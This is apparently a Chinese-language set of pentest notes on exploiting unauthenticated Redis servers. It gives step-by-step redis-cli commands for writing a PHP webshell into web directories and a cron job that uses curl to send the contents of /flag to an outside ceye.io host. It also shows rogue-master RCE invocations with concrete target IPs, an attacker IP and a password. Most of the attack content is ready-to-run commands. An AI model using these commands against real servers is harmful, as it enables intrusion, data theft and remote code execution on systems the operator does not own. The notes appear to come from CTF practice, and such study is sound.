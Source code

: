 ## **redis未授权**
redis是一个字典数据库，redis在默认安装情况下，默认端口为6379，没有添加过防火墙信任规则，修改默认端口等防护策略，这相当于直接将 Redis服务暴露到公网上，如果设置密码认证（默认为空）的情况，会导致任意用户都可访问目标服务器--即Redis未授权访问，以及读取Redis的数据，攻击者可以在这个条件下，如果Redis是以root身份运行，利用root权限的身份写入ssh公钥，通过ssh登录目标服务器，写入webshell，拿到控制权。

默认bond 127.0.0.1 本地可以直接连接6379，且没有密码，有密码时只需要密码无需账户。
用自带的连接服务程序redis-cli：
```
=>redis-cli -h 127.0.0.1 -p 6379
```


在配置文件可以手动
将bond改为0.0.0.0则所有ip可连接，
也可以设置密码，如123456
```
用密码登录：
=>redis-cli -h 127.0.0.1 -p 6379 -a 123456
=>redis-cli -h 127.0.0.1 -p 6379 auth 123456


config get dir   //获取redis运行路径，默认 /root/redis-6.2.4
config get dbfilename //默认数据库名称dump.rdb，数据保存在这个文件里
redis是默认某个时间点将数据写入dump.rdb中在dir目录下。
```

## **redis写文件**
1. 是用root账号启动的redis
    权限chomd 777
2. 连接上redis，无授权直接连接上，有授权想办法搞auth密码，如文件包含（redis配置文件一般/etc/redis.conf中的requirepass）、弱口令爆破、历史命令。


3. 利用redis默认的RDB持久化 任意写文件。
```
1. 写webshell到web容器目录中
2. 写自己生成的公钥到ssh服务的authorizd-keys文件，实现免密ssh登录
3. 写定时任务文件，执行任意命令，开启反弹shell等。
```


## **写webshell到web容器目录中**
```
连接上redis后
flushall //清掉所有变量数据
info //查看主机信息

config set dir /var/www/html     //设置redis运行路径为网站目录，如果没有这个目录会提示没有
config set dbfilename info.php  //把数据库名dump.rdb改为info.php
set x  "<?php phpinfo();?>"        //一个字典数据
save    //写入快照，也就把info.php写如网站目录下


config set dir C:\phpstudy_pro\WWW\     //设置redis运行路径为网站目录，如果没有这个目录会提示没有
config set dbfilename info.php  //把数据库名dump.rdb改为info.php
set x  "<?php phpinfo();?>"        //一个字典数据
save    //写入快照，也就把info.php写如网站目录下                                
```
## **写定时任务文件，开启反弹shell**
```
连接上redis后
flushall //清掉所有变量数据
info //查看主机信息

config set dir /var/spool/cron   //dir写入文件的目录,centos定时任务
config set dbfilename root   //文件名为root，欺骗是root创建的定时任务
set x "\n\n\n * * * * * curl http://2qytvx.ceye.io/?r=$(cat /flag) \n\n\n"  //定时任务获取flag
        \n保证每一个任务在一行，
        *****每分钟执行一次
```


```
ubuntu下可以利用的cron有以下几个地方：
/etc/crontab：该文件里面的任务计划可以直接执行
/etc/cron.d/*：该目录下的任意文件都可以被当作任务计划去执行，并且避免了原先任务计划文件被覆盖的情况
/var/spool/cron/crontabs/：该目录下定义的任务计划文件会被执行，不过需要有一个前提?
```
可以利用redis-exp.exe工具，直接连接以上操作。

## **redis<=5.05主从同步直接rce**
redis<=5.05主从同步直接rce原理？。
>
上述的写文件漏洞利用方法是必须要求redis服务的运行权限是root权限的，所以比较苛刻。
如果非root用户的redis4.x-5.05版本的redis服务有直接的命令执行漏洞，可以直接那来使用：
公网linux下使用脚本：<https://github.com/vulhub/redis-rogue-getshell>
使用该py3脚本即可直接在redis服务器上执行命令，进而反弹shell。
```
cd RedisModulesSDK/
make  //生成exp.so文件
cd ../
python3 redis-master.py -r 192.168.16.179 -p 6379 -L 192.168.16.128 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
这里局域网两机可达

python3 redis-master.py -r node5.buuoj.cn -p 28409  -L 47.109.58.205 -P 8088 -f RedisModulesSDK/exp.so -c "whoami"
```



^
## **Redis 4.x/5.x RCE**
<https://github.com/Dliv3/redis-rogue-server>

python3 redis-rogue-server.py --rhost 139.55.146.42 --rport 6379 --passwd U0^mRtU+cKiY_17 --lhost 47.109.58.205 --lport 2333
